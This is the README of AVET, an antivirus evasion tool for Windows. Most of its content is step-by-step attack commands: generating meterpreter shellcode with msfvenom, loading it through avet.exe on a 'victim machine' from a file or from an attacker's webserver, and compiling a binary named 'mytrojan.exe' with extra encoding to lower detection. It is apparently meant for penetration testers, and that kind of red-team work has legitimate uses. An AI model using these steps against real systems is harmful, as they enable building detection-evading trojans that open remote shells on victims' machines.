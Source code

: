 AntiVirus Evasion Tool
======================

Avet was developed based on Backtrack 5, but also works with Kali 2. Shellcode downloading (-u) is a bit buggy and noisy, so better use the -f switch. 

Because of the huge interest I decided to spend some time for enhancing & developing avet.

For basics about antivirus evasion have a look at my old article: https://govolutionde.files.wordpress.com/2014/05/avevasion_pentestmag.pdf
and: https://deepsec.net/docs/Slides/2014/Why_Antivirus_Fails_-_Daniel_Sauder.pdf

What & Why:
- when running an exe file made with msfpayload & co, the exe file will often be recognized by the antivirus software
- avet is a antivirus evasion tool targeting windows machines
- avet includes two tools, avet.exe with different antivirus eavasion techniques and make_avet for compiling a preconfigured binary file
- avet.exe loads ASCII encoded shellcode from a textfile or from a webserver, further it is using an av evasion technique to avoid sandboxing and emulation
- for encoding the shellcode the tool format.sh and sh_format are included
- this readme applies for Kali 2 and tdm-gcc

How to install tdm-gcc with wine:
https://govolution.wordpress.com/2017/02/04/using-tdm-gcc-with-kali-2/


How to use avet.exe
-------------------

You can use the precompiled avet.exe file as a shellcode loader.

Example 1, loading shellcode from a file:

Attackers machine:
```
$ msfvenom -p windows/meterpreter/bind_tcp -f c -a x86 --platform Windows > sh.txt
$ ./format.sh sc.txt > sc_clean.txt
```

Copy sc_clean.txt & avet.exe to the victim machine.
```
$ msfconsole
msf > use multi/handler
msf  exploit(handler) > set payload windows/meterpreter/bind_tcp 
msf  exploit(handler) > set rhost xyz
msf  exploit(handler) > exploit 
```

On the victim machine:
```
c:\whatever>avet.exe -f shellcode.txt
```

Example 2, loading shellcode from a webserver:

Attackers machine:
```
$ msfvenom -p windows/meterpreter/bind_tcp -f c -a x86 --platform Windows > sh.txt
$ ./format.sh sc.txt > sc_clean.txt
```

Copy sc_clean.txt to your webroot and avet.exe to the victim machine.
```
$ msfconsole
msf > use multi/handler
msf  exploit(handler) > set payload windows/meterpreter/bind_tcp 
msf  exploit(handler) > set rhost xyz
msf  exploit(handler) > exploit 
```

On the victim machine:
```
c:\whatever>avet.exe -u yourserver/sc_clean.txt
```

How to use make_avet
--------------------
Compile if needed:
```
$ gcc -o make_avet make_avet.c
```

Example 1, compile shellcode into the .exe file:
```
$ msfvenom -p windows/meterpreter/bind_tcp -f c -a x86 --platform Windows > sh.txt
$ ./format.sh sh.txt > sh_clean.txt
$ ./make_avet -f sh_clean.txt
$ wine gcc.exe -m32 -o mytrojan.exe avet.c
```

Example 2, make an .exe file that downloads a shellcode from a webserver:
```
$ msfvenom -p windows/meterpreter/bind_tcp -f c -a x86 --platform Windows > sh.txt
$ ./format.sh sh.txt > sh_clean.txt
$ cp sh_clean.txt /var/www
$ ./make_avet -u 192.168.2.112/sh_clean.txt
$ wine gcc.exe -m32 -o mytrojan.exe avet.c
```

Check out the other options as well:
```
-f compile shellcode into avet.exe, needs filename
-u load and exec shellcode from url using internet explorer
-p print debug information
-h help
```

Some notes
----------

Rebuild avet.exe:
No problem, ensure no content is in defs.h (`echo "">defs.h`), then compile with:
```
$ wine gcc.exe -m32 -o avet.exe avet.c
```

Have a look for build.sh for easier handling.

For adding more random (and lower chances of detection) to the binary additionaly use msf encoders like shikata ga nai.
